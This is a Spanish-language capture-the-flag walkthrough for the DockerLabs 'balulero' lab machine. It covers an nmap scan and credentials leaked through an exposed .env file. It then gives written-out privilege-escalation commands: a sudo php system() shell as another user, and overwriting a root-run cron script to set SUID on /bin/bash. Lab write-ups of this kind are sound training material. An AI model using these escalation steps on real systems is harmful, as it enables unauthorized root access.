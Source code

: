 nmap: 22, 80

![[dockerlabs/facil/balulero/nmap.png]]

---
al ingresar a la pagina no da una posible usuario "balu"
al entrar al código de la pagina podemos ver que hay un "script.js" al final, si entramos nos mandara a otro código con lo que muestra esto:

![[dockerlabs/facil/balulero/env.png]]

y si colocamos el 
> .env_de_baluchingo

en el URL queda si:

>http://172.17.0.2/.env_de_baluchingon

nos dará las credenciales

![[dockerlabs/facil/balulero/credenciales.png]]

![[dockerlabs/facil/balulero/conexion.png]]

estamos dentro y ahora buscamos como escalar

para escalar se puede por "php" pero no tenemos permisos de escritura o modificación.
para escalar al otro usuario chocolate 
seguí los pasos de: https://gtfobins.github.io/gtfobins/php/#sudo

![[dockerlabs/facil/balulero/sudo.png]]

![[chocolate.png]]

    CMD="/bin/sh"

     sudo -u chocolate php -r "system('$CMD');"


ahora a escalar a root

utilizamos una herramienta llamada pspy para ver que ejecuta root sin ser root nosotros y poder ver: https://github.com/DominicBreuker/pspy
lo ejecutamos y muestra que esta carpeta se ejecuta cada 5 segundos:  /opt/script.php

![[sleep5.png]]

ejecutamos los siguientes comandos:

    echo "<?php" > /opt/script.php

    echo "exec ('chmod u+s /bin/bash');" >> /opt/script.php

    echo "?>" >> /opt/script.php

por orden uno por uno, lanzamos bash -p

![[dockerlabs/facil/balulero/root.png]]

y somos root! 